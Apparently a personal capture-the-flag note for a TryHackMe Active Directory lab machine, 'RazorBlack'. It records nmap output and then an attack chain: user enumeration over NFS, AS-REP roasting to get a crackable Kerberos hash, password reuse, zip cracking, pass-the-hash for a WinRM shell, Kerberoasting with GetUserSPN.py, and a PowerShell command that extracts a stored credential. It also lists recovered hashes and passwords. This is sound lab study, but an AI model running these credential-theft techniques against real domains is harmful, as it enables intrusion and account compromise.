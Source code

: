 Links: [[00 - Global Index (Start Here!)]] [[03 - Try Hack Me]]

# [RazorBlack]
## Notes

IP: 10.10.135.182
Nmap scan:
```bash
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-04-24 13:47:49Z)
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: raz0rblack.thm, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2049/tcp open  mountd        1-3 (RPC #100005)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: raz0rblack.thm, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RAZ0RBLACK
|   NetBIOS_Domain_Name: RAZ0RBLACK
|   NetBIOS_Computer_Name: HAVEN-DC
|   DNS_Domain_Name: raz0rblack.thm
|   DNS_Computer_Name: HAVEN-DC.raz0rblack.thm
|   DNS_Tree_Name: raz0rblack.thm
|   Product_Version: 10.0.17763
|_  System_Time: 2022-04-24T13:50:15+00:00
| ssl-cert: Subject: commonName=HAVEN-DC.raz0rblack.thm
| Not valid before: 2022-04-23T13:46:29
|_Not valid after:  2022-10-23T13:46:29
|_ssl-date: 2022-04-24T13:50:32+00:00; 0s from scanner time.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=4/24%Time=62655509%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: HAVEN-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-04-24T13:50:17
|_  start_date: N/A
```
nothing on SMB share with null auth.

Domain name: raz0rblack.thm
ldapsearch for users
two files with  nfs one is a flag and the other is a list of usernames
```bash
daven port  
imogen royce  
tamara vidal  
arthur edwards  
carl ingram  
nolan cassidy  
reza zaydan  
ljudmila vetrova  
rico delgado  
tyson williams  
steven bradley  
chamber lin
```
formatting to a txt file
```bash
  
dport  
iroyce  
tvidal  
aedwards  
cingram  
ncassidy  
rzaydan  
lvetrova  
rdelgado  
twilliams  
sbradley
clin
```
get a hash
```bash
$krb5asrep$23$twilliams@RAZ0RBLACK.THM:204f5a58560ef786e5f0120345ba62d2$929df2cdb8bad3adaed4af263406e9bda1f0680d1beddb5571f1844dd6e784832880d2eb85f4f7a94d6b0ef0c2f30fd7eac4bb3096e1c19cd1eb320d7efb74de0107b0ac20f58ebb53d7908bf595ff40197b66c512165a5f02e98963c54d20d48f72da656d4ef4e3683eacfb6d16e2e1914670060196b14ca54f37a7c5c269063579ede5a179ff4f9da3ace5f57e6fc2bcbcd09d06b54de5af4e4cd33982c303734bf3f54c7fe6ba7039cb9a44457d2fac16d09cf42c1cc8b74e29bc6766894d6a2f32c1f0b74a2bb2b1bea46e85442999745ebd80a3b1d8fc733df2a0e83582c5649f140f8f04840eaba9687397b58f:roastpotatoes
```

see if anyother user on smb has the same password.

sbradley does.
login to the trash sahre and crack the zip with zip2john
electromagnetismo

from here find ljudmilas hash for a winrm shell f220d3988deb3f516c73f40ee16c431d 

use GetUserSPN.py and get a hit for xyan1d3:cyanide9amine5628
```bash
$Credential = Import-Clixml -Path "xyan1d3.xml"   $Credential.GetNetworkCredential().password`
```
will give the userpassword